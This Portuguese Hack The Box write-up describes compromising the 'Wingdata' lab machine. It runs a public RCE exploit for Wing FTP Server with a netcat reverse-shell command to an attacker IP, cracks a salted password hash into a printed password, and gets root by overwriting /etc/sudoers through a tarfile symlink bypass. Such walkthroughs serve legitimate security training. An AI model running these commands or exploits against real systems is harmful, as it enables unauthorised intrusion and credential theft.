# Hack The Box — Wingdata


---

# Informações da Máquina

| Nome  | Dificuldade | Plataforma    | OS    |
| ----- | ---------- | ------------ | ----- |
| Wingdata | Easy | Hack The Box | Linux |

---

# Superfície de ataque

1. Enumeração inicial com Nmap  
2. Identificação do Wing FTP Server v7.4.3  
3. Exploração de RCE não autenticado  
4. Shell inicial como wingftp  
5. Enumeração local e coleta de credenciais  
6. Crack de hash com salt custom  
7. Acesso via SSH como wacky  
8. Enumeração de sudo  
9. Exploração de vulnerabilidade no tarfile  
10. Obtenção de root  

---

# Reconhecimento

A enumeração inicial foi realizada com Nmap para identificar serviços expostos na máquina alvo.

```bash
nmap -sC -sV -A 10.129.29.71
```



O scan revelou duas portas abertas:

- **22 (SSH)** → possível acesso posterior
- **80 (HTTP)** → principal vetor de ataque

A presença de apenas dois serviços indicava que o caminho provavelmente envolveria exploração web.

---

# Enumeração Web

Ao acessar a aplicação web, foi possível observar uma página institucional da empresa Wing Data Solutions.



Durante a navegação, foi identificado o painel do **Wing FTP Server Web Client**, onde a versão do software era exibida:

```
Wing FTP Server v7.4.3
```



Isso é extremamente importante, pois permite buscar vulnerabilidades específicas para essa versão.

---

# Exploração

Após pesquisar pela versão identificada, foi encontrada uma vulnerabilidade conhecida:

**CVE-2025-47812 — Unauthenticated RCE**



Essa vulnerabilidade permite execução remota de código sem autenticação através da manipulação do parâmetro `username` no endpoint de login.

Foi utilizado um exploit público em Python:

```bash
python3 exploit.py -u http://ftp.wingdata.htb -v
```



Inicialmente, foi testado com o comando `whoami` para validar a execução remota.

Em seguida, foi utilizado para obter uma reverse shell:

```bash
python3 exploit.py -u http://ftp.wingdata.htb -v -c "nc -c sh 10.10.14.233 1337"
```



---

# Acesso Inicial

Foi configurado um listener na máquina atacante:

```bash
nc -nvlp 1337
```



Após executar o exploit, foi obtida uma shell como:

```
wingftp
```

Esse usuário corresponde ao serviço do Wing FTP Server.

---

# Enumeração Local

Com acesso ao sistema, foi iniciada a enumeração manual.

Foi identificado o diretório:

```
/opt/wftpserver/Data/1/users/
```

Nesse diretório existem arquivos XML contendo informações de usuários, incluindo hashes de senha.

O arquivo `wacky.xml` revelou o seguinte hash:



```
32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca
```

---

# Crack de Credenciais

Inicialmente, o hash não foi quebrado utilizando SHA256 puro.

Após análise, foi identificado que o sistema utilizava um salt fixo:

```
WingFTP
```

O cracking foi realizado com:

```bash
hashcat -m 1410 hash.txt /usr/share/wordlists/rockyou.txt
```



Senha encontrada:

```
!#7Blushing^*Bride5
```

---

# Acesso via SSH

Com a senha obtida, foi possível acessar o sistema via SSH:

```bash
ssh wacky@ftp.wingdata.htb
```



Isso fornece uma shell mais estável em comparação com a reverse shell inicial.

---

# Flag de Usuário

```bash
cat user.txt
```



```
621bc7d792d7ae33963b5dc2d2a2216
```

---

# Escalação de Privilégio

A enumeração com `sudo -l` revelou que o usuário podia executar um script como root sem senha:

```
/usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```

Ao analisar o script, foi identificado o uso da função:

```python
tar.extractall(path=staging_dir, filter="data")
```

Essa função tenta mitigar path traversal, porém não é completamente segura.

---

# Vulnerabilidade

Foi identificado o uso do:

**CVE-2025-4517 — Python tarfile bypass**



Essa vulnerabilidade permite contornar a proteção do `filter="data"` utilizando uma combinação de:

- symlink
- hardlink

Isso possibilita escrita arbitrária no sistema como root.

---

# Exploração da Escalação

Foi utilizado um exploit que:

1. Cria um arquivo `.tar` malicioso  
2. Utiliza symlink + hardlink para escapar do diretório  
3. Sobrescreve `/etc/sudoers`  
4. Adiciona o usuário `wacky` com privilégios totais  

Execução:

```bash
python3 /tmp/CVE-2025-4517-POC.py
```



Após a execução, o usuário passou a ter:

```
wacky ALL=(ALL) NOPASSWD: ALL
```

---

# Root Shell

```bash
sudo /bin/bash
```

---

# Flag Root

```bash
cat /root/root.txt
```



```
10249185de33be92fb5d2ed29f74a025
```

---

# Vulnerabilidades Identificadas

### Wing FTP RCE (CVE-2025-47812)
Execução remota de código sem autenticação.

### Credenciais expostas
Hashes acessíveis em arquivos XML.

### Tarfile bypass (CVE-2025-4517)
Bypass de proteção usando symlink/hardlink.

### Sudo inseguro
Execução de script privilegiado sem validação adequada.

---

# Ferramentas Utilizadas

- Nmap  
- Netcat  
- Python3  
- Hashcat  
- SSH  

---

# Principais Aprendizados

- Identificação de versão pode acelerar exploração  
- Hashes podem conter salt custom  
- Acesso inicial nem sempre é estável → pivot via SSH  
- Falhas em bibliotecas padrão podem levar a privesc  
- Scripts em sudo devem ser analisados cuidadosamente  

---

# Autor
https://github.com/ninjaa-exe